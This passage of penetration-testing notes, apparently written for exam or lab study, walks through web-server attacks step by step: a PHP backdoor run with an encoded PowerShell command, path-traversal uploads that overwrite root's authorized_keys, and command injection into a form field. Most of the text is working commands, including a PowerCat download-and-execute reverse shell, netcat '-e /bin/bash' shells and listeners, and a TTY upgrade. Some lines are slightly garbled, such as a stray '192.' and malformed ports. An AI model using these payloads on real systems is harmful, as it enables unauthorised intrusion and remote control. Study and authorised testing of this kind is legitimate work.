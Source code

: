 - To base64 `$EncodedText =[Convert]::ToBase64String($Bytes)` (with `$EncodedText` as encoded one-liner)
- `curl http://target.ip.address/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20pastedversionof$encodedText`
- Check netcat listener for reverse shell

# File Upload with non-executables
- Use Burp Suite to capture a test upload  of `test.txt` file
- Change filename in request to `../../../../../../../../test.txt` to see if upload is successful
- If target runs SSH, then try overwriting a file like `authorized_keys`
	- `ssh-keygen` with filename `fileup`, then `cat fileup.pub > authorized_keys`
	- Upload `authorized_keys` to `../../../../../../../../root/.ssh/authorized_keys
	- clear `known_hosts` file: `rm ~/.ssh/known_hosts`
	- `ssh -p 2222 -i fileup root@target.ip.address`

# OS Command Injection
Run Burpsuite and test command injection into a field
- Look for URL encoded version of command in Burp to ID field (eg. Archive)
- Send POST request with curl: `curl -X POST --data 'Archive=git version' http://target.ip.address:port/archive`
	- Git for Windows will output version & "windows"
	- Git for Linux only shows version number
- Send POST request with curl & 2nd command: `curl -X POST --data 'Archive=git%3Bipconfig' http://target.ip.address.here:port/archive`
- Test if CMD or PowerShell will run with: [(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell]
	- [URL Encoding](https://meyerweb.com/eric/tools/dencoder/): `curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://target.ip.address.here:port:8000/archive`
- If it shows PowerShell (pwsh), use PowerCat to create a reverse shell
	- Copy Powercat to directory: `cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .`
	- Start http server from same directory: `python3 -m http.server 80`
	- Start Netcat listener in another tab: `nc -nvlp 4444`
	- PowerShell one-liner for PowerCat download/shell start: `IEX (New-Object System.Net.Webclient).DownloadString("http://target.ip.address/powercat.ps1");powercat -c netcat.ip.address.here -p 4444 -e powershell`
	- Send POST request with PowerShell one-liner URL Encoded: `curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2Fnetcat.ip.address.here%2Fpowercat.ps1%22)%3Bpowercat%20-c%20netcat.ip.address.here%20-p%204444%20-e%20powershell' http://target.ip.address.here:port/archive`
		- Check tab with http server for GET request
		- Check tab with netcat for reverse shell (PowerShell)
- For Linux,
	- Start netcat listener `nc -nvlp 4444
	- Open 2nd terminal and run netcat one-liner inside curl command `curl -X POST --data 'Archive=git%3Bnc%20netcat.ip.address.here%4444%20-e%20/bin/bash' http://target.ip.address.here/archive`
	- Return to netcat listener for shell, upgrade to Full TTY with python if necessary: `python -c 'import pty; pty.spawn("/bin/bash")'192.
